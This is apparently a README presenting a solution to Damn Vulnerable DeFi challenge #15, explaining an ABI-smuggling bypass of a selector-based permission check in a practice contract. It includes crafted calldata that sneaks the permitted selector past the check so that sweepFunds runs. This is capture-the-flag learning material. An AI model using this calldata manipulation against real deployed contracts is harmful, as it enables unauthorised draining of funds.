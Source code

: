 
## Damn Vulnerable Defi #15 solution**

Deployer has the permission to access the function selector `0x85fb709d` (sweepFunds).
Player has the permission to access the function selector `0xd9caed12` (withdraw).
`sweepFunds` and `withdraw` functions have `onlyThis` modifier so we can only call the functions through `execute` function in `AuthorizedExecutor.sol`.

This test let the contract authorize the player to do `sweepFunds` without the permission by adding `d9caed12` in the calldata.

By adding `d9caed12` in the calldata, the player can pass this condition.
```
if (!permissions[getActionId(selector, msg.sender, target)]) {
  revert NotAllowed();
}
```

The normal calldata.
```
0x1cff79cd
000000000000000000000000e7f1725e7734ce288f8367e1bb143e90bb3f0512
0000000000000000000000000000000000000000000000000000000000000040
0000000000000000000000000000000000000000000000000000000000000044
85fb709d0000000000000000000000003c44cdddb6a900fa2b585dd299e03d12fa4293bc0000000000000000000000005fbdb2315678afecb367f032d93f642f64180aa300000000000000000000000000000000000000000000000000000000
```


The modified calldata.
```
0x1cff79cd
000000000000000000000000e7f1725e7734ce288f8367e1bb143e90bb3f0512
0000000000000000000000000000000000000000000000000000000000000080
0000000000000000000000000000000000000000000000000000000000000000
d9caed1200000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000000044
85fb709d0000000000000000000000003C44CdDdB6a900fa2b585dd299e03d12FA4293BC0000000000000000000000005fbdb2315678afecb367f032d93f642f64180aa300000000000000000000000000000000000000000000000000000000
```

## Steps to run the test

1. Clone the repo
2. `yarn install`
3. `yarn run abi-smuggling`